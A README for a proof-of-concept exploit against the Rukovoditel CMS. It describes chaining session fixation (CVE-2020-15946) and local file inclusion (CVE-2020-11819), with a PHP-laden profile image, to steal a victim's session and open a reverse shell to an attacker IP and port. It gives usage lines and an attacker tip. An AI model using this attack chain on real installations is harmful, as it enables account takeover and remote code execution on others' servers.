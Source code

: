 # PoC-RCE-Rukovoditel
Proof of concept for CVE-2020-11819 and CVE-2020-15946

# Description:
This exploit has two modes of execution, using the session fixation vulnerability (CVE-2020-15946) or using the access credentials of any account under any profile. 
With the --type L option, this script will create a malicious link, if the link is accessed in a browser by the victim, an arbitrary session identifier will be set that will be used to steal their session after uploading an image with PHP content on their photo profile, and then use local file include (CVE-2020-11819) to get a nice reverse shell or, with the options --type C -u <username> -p <password> you can provide credentials, load the image with PHP content and use local file inclusion (CVE-2020-11819) to achieve the execution of code. 

Protip: remember to check if the registration module is enabled ;)

# Usage
  exploit.py -t <target> -a L --ip attacker IP --port attacker port [options]
  exploit.py -t <target> -a C -u <username> -p <password> --ip attacker IP --port attacker port [options]
  
  Post-authenticate RCE for rukovoditel, script version 1.0
  
  optional arguments:
    -h, --help            show this help message and exit
    -t URL, --target URL  URL/Full path to CMS Rukovoditel http://url/path/to/cms/
    -u USER, --user USER  Username for authentication
    -p PASSWORD, --password PASSWORD
                        Password for authentication
    -a TYPE, --type TYPE  Use -a L to generate the link and steal the session or use -a C if you have access
                        credentials to the web application
    --ip IP_ATTACKER      IP attacker for reverse shell!
    --port PORT_ATTACKER  Port for reverse shell connection
    --proxy PROXY         Setup http proxy for debbugin http://127.0.0.1:8080
